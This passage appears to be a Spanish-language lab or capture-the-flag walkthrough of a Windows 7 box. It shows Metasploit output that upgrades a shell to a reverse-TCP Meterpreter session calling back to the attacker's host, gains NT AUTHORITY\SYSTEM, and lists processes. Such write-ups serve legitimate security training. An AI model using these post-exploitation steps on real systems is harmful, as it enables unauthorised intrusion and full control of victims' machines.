 ```bash
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.11.100:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (200774 bytes) to 10.10.206.58
[*] Meterpreter session 2 opened (10.2.11.100:4433 -> 10.10.206.58:49206) at 2023-03-28 18:45:17 -0500
[*] Stopping exploit/multi/handler
```

Después de configurarlo, ejecutamos el módulo y logramos obtener una nueva sesión `meterpreter`. Para confirmarlo, listamos las sesiones actuales con el comando `sessions`.

```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.2.11.100:4444 -> 10.10.206.58:49198 (10.10.206.58)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              10.2.11.100:4433 -> 10.10.206.58:49206 (10.10.206.58)
```

El resultado indica que hay dos sesiones activas: la sesión con ID 1 corresponde a la shell convencional, mientras que la sesión con ID 2 corresponde a la sesión de Meterpreter.

Establecemos una conexión con la sesión `meterpreter` mediante el comando `sessions -i 2`.

```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

Dentro de la sesión, podemos usar el comando `ps` para ver los procesos que se están ejecutando en la máquina víctima.

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 484   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 588   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
```